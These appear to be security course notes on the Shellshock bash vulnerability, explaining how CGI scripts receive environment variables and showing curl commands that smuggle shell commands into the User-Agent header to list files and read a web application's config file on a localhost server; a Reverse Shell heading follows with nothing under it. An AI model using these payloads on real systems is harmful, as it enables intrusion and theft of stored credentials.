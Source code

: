 ### mistake in source code

bash runs `parse_and_execute`. so after the semicolon `;` the rest is executed upon parsing.

## 4.11 Exploiting Shellshock Vulnerability
([top](#directory)
- Execute a bash shell
  - process environment variables containing function definition
- trigger environment parsing logic
- shellshock

### Shellshock Attack on CGI: How CGI Works

- browser
  - apache server
    - serves static content
    - or
    - fork() child process
      - cgi
        - shell script
        - `#!/bin/bash`

### Passing Envrionment Variables to CGI
#### CGI Program
```
echo "content type : text/plain"
echo
echo "*** Environment Variables***"
strings /proc/$$/environ
```

### From Command Line

```
$ curl -A "() {echo hello;}" http://localhost/cgi-bin/test.cgi
```

### Run a command on the Server

```
$ curl -A "(){echo hello;}; echo Content_type: text/plain; echo; /bin/ls -l" http://localhost/cgi-bin/test.cgi"
```

```
$ curl -A "(){echo hello;}; echo Content_type: text/plain; echo; /bin/cat /var/www/SQL/Collabtive/config/standard/config.php" http://localhost/cgi-bin/test.cgi"
```

## 4.12 Reverse Shell
([top](#directory)

